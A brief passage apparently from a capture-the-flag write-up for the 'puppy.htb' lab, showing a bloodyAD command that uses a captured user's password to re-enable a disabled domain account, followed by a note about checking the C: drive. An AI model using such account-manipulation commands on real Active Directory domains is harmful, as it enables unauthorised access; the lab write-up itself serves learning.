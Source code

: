 ### Active-Account

Commands to execute

```bash
bloodyAD --host DC.puppy.htb -d puppy.htb -u ant.edwards -p Antman2025! remove uac adam.silver -f ACCOUNTDISABLE
```

## User

now we can try

![alt text](../assets/images/puppy7.png)

First of all i will check if something **not default** at C:\ tab

### realized nondefault dir
